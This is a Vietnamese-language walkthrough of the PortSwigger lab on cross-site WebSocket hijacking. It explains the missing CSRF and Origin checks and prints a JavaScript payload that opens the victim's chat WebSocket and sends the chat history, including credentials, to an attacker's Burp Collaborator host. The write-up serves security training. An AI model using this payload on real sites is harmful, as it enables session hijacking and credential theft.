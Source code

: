 🧪 **Lab: Cross-site WebSocket Hijacking (PortSwigger)**

🔗 **Lab URL: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab**

🧠 **Phân tích kỹ thuật đề bài**
Ứng dụng là một cửa hàng trực tuyến có tích hợp tính năng live chat sử dụng WebSocket để truyền và nhận tin nhắn theo thời gian thực.

✅ **Điểm yếu bảo mật:**

WebSocket không yêu cầu CSRF token khi handshake.

Cookie phiên của người dùng vẫn được gửi trong quá trình WebSocket handshake từ bất kỳ origin nào.

Cho phép kẻ tấn công tạo một script độc hại khiến trình duyệt của nạn nhân tự động kết nối lại WebSocket bằng session hợp lệ của họ.

🧩 **Mục tiêu**

Sử dụng tính năng Exploit Server để gửi một trang HTML chứa script khai thác đến nạn nhân, đánh cắp lịch sử chat của họ. Trong đó có chứa username và password, từ đó đăng nhập và hoàn thành lab.

🔍 **Bước 1: Quan sát hoạt động của WebSocket**

Truy cập lab, nhấn vào "Live chat".

Gửi một tin nhắn bất kỳ.

Reload lại trang.

Mở Burp Suite → Proxy → WebSockets history:

Quan sát thấy client gửi chuỗi "READY" → server phản hồi bằng toàn bộ lịch sử tin nhắn.

Đây là chuỗi quan trọng mà attacker cần gửi để server gửi lịch sử về.

![image](https://github.com/user-attachments/assets/437785b0-5ee3-458e-bb29-22600978b071)

Mở Burp → Proxy → HTTP history:

Tìm yêu cầu handshake WebSocket (thường là GET /chat với Upgrade: websocket).

Kiểm tra và xác nhận: không có CSRF token trong header.

![image](https://github.com/user-attachments/assets/34d82764-0e63-4957-bb6c-d0cf4d3121c8)

💥 **Bước 2: Khai thác bằng JavaScript**

Truy cập Exploit Server, dán đoạn script sau vào phần Body của payload:

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator-id>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
🔧 Lưu ý:

Thay <your-lab-id> bằng lab ID của bạn (copy từ yêu cầu handshake WebSocket).

Thay <your-collaborator-id> bằng Burp Collaborator payload.

🔁 **Quy trình khai thác**

Nạn nhân truy cập trang exploit.

Script chạy trên trình duyệt của nạn nhân.

Trình duyệt tự động mở WebSocket đến /chat với cookie hợp lệ.

Gửi "READY" → nhận toàn bộ lịch sử chat.

Từng tin nhắn được gửi về máy chủ attacker (qua Burp Collaborator).

Attacker thu được thông tin đăng nhập trong nội dung chat.

![image](https://github.com/user-attachments/assets/f2ac2644-962b-47b0-9372-d0ee47e0545f)

🧩 **Bước 3: Đăng nhập và hoàn thành Lab**

Mở Burp → Collaborator tab → Poll now.

Kiểm tra các request chứa lịch sử chat → tìm username và password.

Dùng thông tin đó để đăng nhập và hoàn thành lab.

✅ **Kết luận**

Lỗi WebSocket hijacking xảy ra khi:

WebSocket không kiểm tra Origin hoặc CSRF token.

Trình duyệt gửi cookie tự động trong kết nối WebSocket → cho phép trang bên ngoài "hijack" session hiện tại.

